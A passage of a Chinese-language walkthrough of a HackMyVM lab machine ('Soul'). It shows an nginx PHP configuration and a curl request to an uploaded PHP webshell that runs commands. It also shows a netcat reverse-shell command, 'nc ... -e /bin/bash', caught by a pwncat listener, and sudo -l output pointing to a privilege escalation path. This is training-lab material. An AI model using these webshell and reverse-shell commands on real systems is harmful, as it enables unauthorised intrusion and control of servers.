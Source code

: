 ```conf
                try_files $uri $uri/ =404;
        }

 # pass PHP scripts to FastCGI server
        #
               location ~ \.php$ {
               include snippets/fastcgi-php.conf;
        #
        #       # With php-fpm (or other unix sockets):
               fastcgi_pass unix:/run/php/php7.3-fpm.sock;
        #       # With php-cgi (or other tcp sockets):
        #       fastcgi_pass 127.0.0.1:9000;
        }
}
```

可以看到 `lonelysoul.hmv` 这个 domain 下的配置里面有 php 解析，加入 hosts 文件之后尝试访问

```plaintext title="/etc/hosts"
192.168.56.115 lonelysoul.hmv
```

然后尝试访问

```bash
┌─[randark@parrot]─[/usr/share/webshells/php]
└──╼ $ curl lonelysoul.hmv/simple-backdoor.php?cmd=whoami
<!-- Simple PHP backdoor by DK (http://michaeldaw.org) -->

<pre>www-data
</pre>
```

命令被成功执行

## User - www-data

```bash
# curl lonelysoul.hmv/simple-backdoor.php?cmd=nc+192.168.56.102+9999+-e+/bin/bash
┌─[randark@parrot]─[~]
└──╼ $ pwncat-cs -lp 9999
[10:07:14] Welcome to pwncat 🐈!
[10:07:41] received connection from 192.168.56.115:47562
[10:07:41] 192.168.56.115:47562: registered new host w/ db
(local) pwncat$ back
(remote) www-data@soul:/var/www/html$ whoami
www-data
```

### 环境探测

```plaintext title="sudo -l"
Matching Defaults entries for www-data on soul:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on soul:
    (gabriel) NOPASSWD: /tmp/whoami
```
